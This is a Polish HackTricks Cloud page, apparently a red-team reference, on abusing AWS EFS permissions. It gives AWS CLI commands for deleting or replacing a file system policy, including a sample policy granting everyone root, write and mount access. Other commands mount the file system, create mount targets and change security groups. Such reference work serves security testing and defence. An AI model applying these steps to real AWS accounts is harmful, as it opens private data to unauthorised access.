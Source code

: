 # AWS - EFS Przywileje

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EFS

Więcej **informacji na temat EFS** znajdziesz w:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Pamiętaj, że aby zamontować EFS, musisz znajdować się w podsieci, w której EFS jest wystawiony i mieć do niego dostęp (grupy zabezpieczeń). Jeśli tak się dzieje, domyślnie zawsze będziesz mógł go zamontować, jednak jeśli jest chroniony przez polityki IAM, musisz mieć dodatkowe uprawnienia wymienione tutaj, aby uzyskać do niego dostęp.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Z dowolnym z tych uprawnień atakujący może **zmienić politykę systemu plików**, aby dać ci do niego dostęp lub po prostu **usunąć go**, aby przyznać **domyślny dostęp**.

Aby usunąć politykę:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Aby to zmienić:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Z tym uprawnieniem atakujący będzie w stanie **zamontować EFS**. Jeśli uprawnienie do zapisu nie jest domyślnie udzielane wszystkim, którzy mogą zamontować EFS, będzie miał tylko **dostęp do odczytu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatkowe uprawnienia `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogą być wykorzystane do **zapisywania** w systemie plików po zamontowaniu go oraz do **uzyskania dostępu** do tego systemu plików **jako root**.

**Potencjalne skutki:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie poufnych informacji w systemie plików.

### `elasticfilesystem:CreateMountTarget`

Jeśli atakujący znajduje się w **podsieci**, w której **nie istnieje żaden punkt montowania** EFS, może po prostu **utworzyć taki punkt w swojej podsieci** przy użyciu tych uprawnień:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencjalne skutki:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

W sytuacji, gdy atakujący odkryje, że EFS ma punkt montowania w swojej podsieci, ale **brak grupy zabezpieczeń, która zezwala na ruch**, może po prostu **zmienić to, modyfikując wybrane grupy zabezpieczeń**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencjalne skutki:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.



<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
